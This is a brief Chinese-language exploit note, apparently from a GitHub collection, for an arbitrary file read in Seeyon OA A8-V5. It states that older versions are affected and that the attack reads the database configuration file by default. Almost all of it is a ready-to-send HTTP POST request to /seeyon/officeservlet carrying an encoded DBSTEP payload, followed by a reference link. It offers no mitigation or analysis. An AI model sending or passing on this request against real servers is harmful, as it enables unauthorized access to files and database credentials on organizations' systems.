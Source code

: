 # 致远OA A8-V5 任意文件读取

影响老版本，默认读取数据库配置文件。


```
POST /seeyon/officeservlet HTTP/1.1
Host: target
...

DBSTEP V3.0     331             0               0               currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
RECORDID=wLehP4whzUoiw=66
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wV66
needReadFile=NrMGyV66
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
COMMAND=BSTLOlMSOCQwOV66
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
affairMemberId=wV66
affairMemberName=N1liNg66
```

ref：

https://mp.weixin.qq.com/s/xZT7RRRxsNX6BN3bwFK67A